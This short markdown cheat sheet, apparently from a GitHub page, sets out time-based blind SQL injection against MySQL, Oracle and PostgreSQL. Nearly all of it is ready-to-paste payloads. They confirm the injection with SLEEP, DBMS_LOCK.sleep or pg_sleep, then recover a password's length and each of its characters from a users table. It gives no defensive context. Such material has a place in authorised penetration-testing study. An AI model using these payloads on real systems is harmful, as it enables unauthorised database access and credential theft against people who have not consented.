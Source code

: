 This technique introduces delays to confirm whether a condition is true.

## 1. Verify Vulnerability with a Delay

For **MySQL** (SLEEP function):
```sql
' || SLEEP(5) --  
```
For **Oracle** (DBMS_LOCK.sleep function):
```sql
' || DBMS_LOCK.sleep(5) --  
```

- **For PostgreSQL (pg_sleep function):**
```sql
' || pg_sleep(5) --  
```
If the response is delayed, the injection is working.

## 2. Extract Password Length
- **For MySQL:**

```sql
' || IF(LENGTH(password)=10, SLEEP(5), 0) FROM users --  
``` 
- **For PostgreSQL:**
```sql    
' || CASE WHEN LENGTH(password)=10 THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --  
```
- **For Oracle:**     
```sql
' || CASE WHEN LENGTH(password)=10 THEN DBMS_LOCK.sleep(5) ELSE NULL END FROM users --  
```
If the delay occurs, the password is 10 characters long.

## 3. Extract Each Character Using Delay

- **For MySQL:**
```sql
' || IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) FROM users --  
``` 
- **For Oracle:**
```sql
' || CASE WHEN SUBSTR(password,1,1)='a' THEN DBMS_LOCK.sleep(5) ELSE NULL END FROM users --  
```
 
- **For PostgreSQL:**    
```sql
' || CASE WHEN SUBSTRING(password FROM 1 FOR 1)='a' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --  
```

Repeat this for each character to reconstruct the full password.